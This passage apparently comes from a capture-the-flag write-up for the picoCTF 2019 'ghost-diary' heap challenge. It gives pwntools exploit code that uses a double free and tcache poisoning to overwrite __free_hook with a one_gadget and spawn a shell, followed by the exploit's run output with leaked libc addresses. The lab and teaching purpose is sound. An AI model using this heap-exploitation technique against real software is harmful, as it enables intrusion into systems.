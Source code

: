 ```python

# Fill up the 0x128 tcache bin again
# We do this to make subsequent mallocs easier to use
# It is easier to visualise the indexes in my opinion
# Indexes freed: 0, 2, 3, 4, 5, 6, 7
free(0)
for i in range(2, 8):
  free(i)

# Add overlapped chunk with B with size 0x1d8, this creates a new tcache bin when freed
# The new tcache bin is used for the tcache poisoning attack
# Otherwise there are some checks to bypass if we do an fastbin attack (for example)
# It's just easier to do it with the tcache bins
add(0x1d8) # idx 0, overlapped with the starting chunk B

# At this point, the two overlapped chunks are at indexes 0 and 1
# Double free them and put them into tcache bin 0x1d8
free(0)
free(1)

# Add one of them, change its fd to __free_hook
add(0x1d8) # idx 0
talk(0, p64(free_hook) + '\n')

# Two more chunks and we get a chunk on __free_hook
add(0x1d8) # 1, overlapped chunk with chunk B again
add(0x1d8) # 2, chunk on __free_hook

# Overwrite __free_hook with one_gadget
talk(2, p64(one_gadget) + '\n')

# Trigger __free_hook which gives us shell
free(1)

p.interactive()
```

Running the exploit now on the shell server gives us the flag:
```sh
redacted@pico-2019-shell1:/problems/ghost-diary_4_e628b10cf58ea41692460c7ea1e05578$ python2 ~/exploit.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/warlock/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.12.2)
[*] '/problems/ghost-diary_4_e628b10cf58ea41692460c7ea1e05578/ghostdiary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './ghostdiary': pid 2346543
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] main arena leak: 0x7f0925653ca0
[*] Libc base: 0x7f0925268000
[*] one gadget: 0x7f09252b7322
[*] free_hook: 0x7f09256558e8
[*] Switching to interactive mode
$ ls
```